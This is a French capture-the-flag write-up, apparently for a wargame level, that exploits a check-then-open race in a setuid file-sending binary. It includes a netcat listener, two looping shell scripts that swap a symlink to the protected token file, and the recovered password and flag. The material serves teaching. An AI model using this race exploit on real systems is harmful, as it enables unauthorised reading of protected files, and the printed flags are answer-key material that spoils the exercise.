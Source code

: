 On trouve dans le dossier home un file token et un binaire ./level10 qui, si on le lance nous affiche un message:
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token 192.168.1.42
You don't have access to token
</code></pre>
> on suppose que l'host est l'ip sur laquelle la machine tourne (<code>ifconfig</code>)

On creer un fichier dans /tmp qui aura nos droits, et qui pourra donc être envoyé:
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Unable to connect to host 192.168.1.42
</code></pre>

On cherche a savoir ce qu'il se passe dans le binaire avec un fichier valide:
<pre><code>> ltrace ./level10 /tmp/test 192.168.1.42
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "192.168.1.42")= 35
fflush(0xb7fd1a20Connecting to 192.168.1.42:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("192.168.1.42")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "192.168.1.42"Unable to connect to host 192.168.1.42)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

On observe que la commande **access** est utilisée, or on sait grâce a son man, que cette commande possède une faille
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

De plus on abserve la tentative de connexion au port 6969 qui n'est pas actif.
Pour que les requetes ce fassent, il faut donc ecouter le port grâce a :
<pre><code>> nc -lk 6969</code></pre>
Et si on relance notre commande:
<pre><code>> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> Il faut 2 terminaux pour efftuer cette manipulation afin de voir le resultat de l'écoute qui dans cette exemple nous donne :
> <pre><code>.*( )*.
> test</code></pre>


On va donc chercher a exploiter la **race-condition-vulnerability**, avec 2 scripts:

### /tmp/loop.sh
```bash
# Ce script lance la requete d'envoie de fichier en boucle
while true;
do
	/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# Ce script creer un fichier sur lequel on a les droits et fait un lien symbolique du fichier token en boucle
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Il suffit de lancer les deux en background et de regarder le deuxieme terminal qui ecoute le port 6969 en attendant les deux scripts s'execute de maniere assez proche pour que la **race-condition-vulnerability** soit exploitée :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
</code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

On test le mot de passe :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>